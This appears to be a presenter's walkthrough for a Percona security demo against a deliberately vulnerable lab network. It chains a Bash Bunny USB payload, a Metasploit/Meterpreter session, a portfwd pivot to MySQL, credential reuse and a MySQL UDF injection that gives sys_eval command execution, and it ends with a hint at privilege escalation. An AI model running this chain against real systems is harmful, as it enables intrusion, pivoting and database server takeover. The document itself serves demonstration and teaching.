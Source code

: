 .. Copyright 2018 Percona LLC / David Busby

#. Bashbunny payload as written will work on Kali / debian Linux desktop running Gnome, ducky_script.txt will need changing for your environment if this differs.
#. Load the bashbunny with bashbunny/payloads/switch1/*
#. `sync` && eject bashbunny
#. Unplug bashbunny, slide switch to position 1
#. re-plug bashbunny, allow to run light will show green when done.
#. Now we should be at the point of MSFconsole running `exploit` to start the multi/handler
#. in a new tab `curl -skv http://172.16.33.2/vuln_webapp/images.php 2>/dev/null &`
#. msfconsole _should_ get a new session
#. You may want to demonstrate you can not reach 3306/tcp on 172.16.33.3 at this point e.g. `nc -v 172.16.33.3 3306`
#. In msfconsole run: `portfwd add -l 3306 -p 3306 -r 172.16.33.3`
#. You may wish to explain this has setup the webserver as a pivot to reach the DB service. `[You] -> [WebServer] -> [MySQL server 3306/tcp]`
#. Use credentials from `cat sqli.php` on webserver meterepter session; to run on the CnC / localhost `mysql -uvuln_webapp -ppluk` in a new tab
#. In mysql run the following `show grants(); select whomami();` discuss how ALL privleges is bad, cover FILE, CREATE_ROUTINE etc.
#. In new tab settup a listener with netcat `nc -l 11457`
#. Head back to mysql client tab
#. mysql -h 127.0.0.1 -u vuln_webapp -ppluk vuln_webapp < udf_51.sql 
#. mysql -h 127.0.0.1 -u vuln_webapp -ppluk vuln_webapp -e "SELECT @@GLOBAL.plugin_dir" 
#. mysql -h 127.0.0.1 -u vuln_webapp -ppluk vuln_webapp -e "SELECT payload FROM udf_stager INTO DUMPFILE '/usr/lib64/mysql/plugin/lib_mysqludf_sys.so'"
#. mysql -h 127.0.0.1 -u vuln_webapp -ppluk vuln_webapp < udf_functions.sql
#. Within mysql client tab execute `SELECT sys_eval("id"), sys_eval("sestatus"), sys_eval("ls -al /usr/lib64/mysql/");` discuss the caveats of each result.
#. VMs run an old kernel, priv escalation at this point should be trivial using existing exploitation vectors
